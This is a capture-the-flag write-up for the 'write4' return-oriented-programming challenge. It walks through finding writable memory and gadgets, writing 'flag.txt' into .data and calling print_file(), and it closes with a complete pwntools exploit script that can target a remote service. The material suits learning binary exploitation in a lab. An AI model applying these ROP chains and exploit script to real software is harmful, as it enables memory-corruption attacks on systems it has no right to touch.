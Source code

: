 # Write4
In this challenge, we are given a function to open arbitrary files (`print_file()`), with the goal of opening `flag.txt`. 
The difficult part is that the string `flag.txt` is nowhere to be found in the binary. 
We must thus use ROP to write the string to memory ourselves.

To solve this challenge, we must complete the following steps:
- Identify a memory location where we can write our string to.
- Write `flag.txt`.
- Put the pointer to our string in `rdi`.
- Call `print_file()`.

## Identifying suitable memory
Before we can write our string to memory, we must first identify some memory that we can write to without breaking anything. We can use radare2 to get a view of the memory sections:
```
$ r2 write4 
[0x00400520]> iS
[Sections]

nth paddr        size vaddr       vsize perm type        name
―――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x00000000    0x0 0x00000000    0x0 ---- NULL
1   0x00000238   0x1c 0x00400238   0x1c -r-- PROGBITS    .interp
2   0x00000254   0x20 0x00400254   0x20 -r-- NOTE        .note.ABI-tag
3   0x00000274   0x24 0x00400274   0x24 -r-- NOTE        .note.gnu.build-id
4   0x00000298   0x38 0x00400298   0x38 -r-- GNU_HASH    .gnu.hash
5   0x000002d0   0xf0 0x004002d0   0xf0 -r-- DYNSYM      .dynsym
6   0x000003c0   0x7c 0x004003c0   0x7c -r-- STRTAB      .dynstr
7   0x0000043c   0x14 0x0040043c   0x14 -r-- GNU_VERSYM  .gnu.version
8   0x00000450   0x20 0x00400450   0x20 -r-- GNU_VERNEED .gnu.version_r
9   0x00000470   0x30 0x00400470   0x30 -r-- RELA        .rela.dyn
10  0x000004a0   0x30 0x004004a0   0x30 -r-- RELA        .rela.plt
11  0x000004d0   0x17 0x004004d0   0x17 -r-x PROGBITS    .init
12  0x000004f0   0x30 0x004004f0   0x30 -r-x PROGBITS    .plt
13  0x00000520  0x182 0x00400520  0x182 -r-x PROGBITS    .text
14  0x000006a4    0x9 0x004006a4    0x9 -r-x PROGBITS    .fini
15  0x000006b0   0x10 0x004006b0   0x10 -r-- PROGBITS    .rodata
16  0x000006c0   0x44 0x004006c0   0x44 -r-- PROGBITS    .eh_frame_hdr
17  0x00000708  0x120 0x00400708  0x120 -r-- PROGBITS    .eh_frame
18  0x00000df0    0x8 0x00600df0    0x8 -rw- INIT_ARRAY  .init_array
19  0x00000df8    0x8 0x00600df8    0x8 -rw- FINI_ARRAY  .fini_array
20  0x00000e00  0x1f0 0x00600e00  0x1f0 -rw- DYNAMIC     .dynamic
21  0x00000ff0   0x10 0x00600ff0   0x10 -rw- PROGBITS    .got
22  0x00001000   0x28 0x00601000   0x28 -rw- PROGBITS    .got.plt
23  0x00001028   0x10 0x00601028   0x10 -rw- PROGBITS    .data
24  0x00001038    0x0 0x00601038    0x8 -rw- NOBITS      .bss
25  0x00001038   0x29 0x00000000   0x29 ---- PROGBITS    .comment
26  0x00001068  0x618 0x00000000  0x618 ---- SYMTAB      .symtab
27  0x00001680  0x1f6 0x00000000  0x1f6 ---- STRTAB      .strtab
28  0x00001876  0x103 0x00000000  0x103 ---- STRTAB      .shstrtab
```
Here we need to pick a segment with `rw`. Let's pick `.data` at  `0x601028` (`.got` and `.got.plt` could technically work, but is not as good of a choice as we might overwrite crucial memory. `.bss` could also be fine but only has room for 8 characters, so a null terminator won't fit after our string).

## Write to memory
Next we will go looking for a gadget that allows for writing to memory such as `mov [reg], reg`. This binary has two of such gadgets:
```
$ ropper -f write4 | grep mov

...
0x0000000000400629: mov dword ptr [rsi], edi; ret; 
...
0x0000000000400628: mov qword ptr [r14], r15; ret; 
...
```
Both of these gadgets could be used for this challenge. We will use the one at `0x400629`, but the other one would have arguably been better as it allows for writing 64 bits instead of 32.
With this gadget, we can write to a pointer in `rsi` with the contents of `rdi/edi`. We will thus also need gadgets to fill `rsi` and `rdi/edi`.
Using ropper we can again find gadgets for those as well:
```
0x0000000000400691: pop rsi; pop r15; ret;
0x0000000000400693: pop rdi; ret;
```
Note that our gadget for `rsi` also pops to `r15`. This means we will also need to provide some garbage value that will go into `r15`.
We can now write a function to write 4 bytes to a writable address using these gadgets as follows:
```
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload
```
We can use this function to write `flag.txt` to our writable address as follows (note that it also seem to work without supplying the null bytes):
```
writable_address = 0x601028 # in .data segment

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit
```

## Write the memory address to `rdi`
To put the address of our written string into `rdi`, we can reuse the same gadget from before.
```
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
```

## Call `print_file()`
As the final step of our exploit, we simply need to call `print_file()`. We can do this by reusing the PLT trampoline trick from the previous challenge; taking the jump in the PLT to the function:
```
print_file_plt = 0x400510
payload += p64(print_file_plt)
```
The script for the complete exploit is thus as follows:

```
#!/usr/bin/env python3

from pwn import *
import subprocess


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


"""
notes:

"""

gdbscript = ""

breakpoints = [
    #    'breakrva 0xoffset',
    #"continue"
]

for s in breakpoints:
    gdbscript += s + "\n"


exe = "./write4"
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'info' # use DEBUG in args for debugging. LOG_LEVEL=warn/info/error for anything else

"""
if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
else:
    libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
"""

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Writes a dword. Alternatively, a gadget to write a qword can be used.
def write4bytes(writable_address, bytestr):
    pop_rsi_r15_gadget = 0x400691
    pop_rdi_gadget = 0x400693
    write_mov_gadget = 0x400629

    payload  = p64(pop_rsi_r15_gadget) # Load destination address into rsi
    payload += p64(writable_address)   # Pops write destination into rsi
    payload += p64(0x4141414141414141) # Garbage value for r15
    payload += p64(pop_rdi_gadget)     # Load 4 byte string into edi/rdi
    payload += p64(u32(bytestr))       # The 4 bytes to write
    payload += p64(write_mov_gadget)   # Trigger write
    return payload

io = start()

writable_address = 0x601028 # in .data segment
pop_rdi_gadget   = 0x400693
print_file_plt   = 0x400510

payload = b"A" * 40

# Stage 1, write "flag.txt" to writable_address
payload += write4bytes(writable_address  , b"flag")
payload += write4bytes(writable_address+4, b".txt")
payload += write4bytes(writable_address+8, b"\x00\x00\x00\x00") # Seems unnecessary for working exploit

# Stage 2, put writable_address in rdi and call print_file()
payload += p64(pop_rdi_gadget)
payload += p64(writable_address)
payload += p64(print_file_plt)


io.sendlineafter(b">", payload)
io.interactive()
...
